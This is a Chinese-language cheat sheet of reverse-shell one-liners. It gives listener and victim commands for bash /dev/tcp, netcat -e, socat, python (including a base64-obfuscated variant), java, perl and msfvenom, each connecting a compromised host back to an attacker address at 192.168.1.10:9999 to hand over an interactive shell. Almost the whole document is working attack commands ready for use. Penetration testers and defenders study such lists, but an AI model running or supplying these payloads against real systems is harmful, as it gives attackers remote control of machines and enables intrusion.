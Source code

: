 # 反弹 SHELL

> [反弹SHELL介绍及原理 - Cocowool](https://www.cnblogs.com/cocowool/p/reverse-shell.html)
> 
> [linux各种一句话反弹shell总结 - myles007](https://www.anquanke.com/post/id/87017)

## 反弹SHELL工具

### BASH

```bash
# 控制端 监听端口,等待 被控端连接
nc -lvp 9999

# 被控端 将本地bash反弹到 控制端
bash -i >& /dev/tcp/192.168.1.10/9999 0>&1 2>&1
```

## netcat

```bash
# 控制端 监听端口,等待 被控端连接
nc -lvp 9999

# 被控端 将本地bash反弹到 控制端
nc 192.168.1.10 9999 -t -e /usr/bin/bash
```

## socat

```bash
# 控制端 监听端口,等待 被控端连接
socat TCP-LISTEN:9999 -

# 被控端 将本地bash反弹到 控制端
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.10:9999
```

## python

```bash
# 未加密版
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.10",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# base64加密版
python -c "exec('aW1wb3J0IHNvY2tldCAgICAgICAgLCBzdWJwcm9jZXNzICAgICAgICAsIG9zICAgICAgICA7ICBob3N0PSIxOTIuMTY4LjMxLjIwMCIgICAgICAgIDsgIHBvcnQ9MTIzNDUgICAgICAgIDsgIHM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCAgICAgICAgLCBzb2NrZXQuU09DS19TVFJFQU0pICAgICAgICA7ICBzLmNvbm5lY3QoKGhvc3QgICAgICAgICwgcG9ydCkpICAgICAgICA7ICBvcy5kdXAyKHMuZmlsZW5vKCkgICAgICAgICwgMCkgICAgICAgIDsgIG9zLmR1cDIocy5maWxlbm8oKSAgICAgICAgLCAxKSAgICAgICAgOyAgb3MuZHVwMihzLmZpbGVubygpICAgICAgICAsIDIpICAgICAgICA7ICBwPXN1YnByb2Nlc3MuY2FsbCgiL2Jpbi9iYXNoIik='.decode('base64'))"
```

## java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.1.10/9999;cat <&5 | while read line; do $line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## perl

```bash
perl -e 'use Socket;$i="192.168.1.10";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## msfvenom

```bash
# msfvenom 框架提供了大量类unix的命令,都是以 cmd/unix/reverse_xxx 的格式
msfvenom -p cmd/unix/reverse_bash lhost=192.168.1.10 lport=9999 R
msfvenom -p cmd/unix/reverse_netcat lhost=192.168.1.10 lport=9999 R                                                                                         |     |     |     |
```
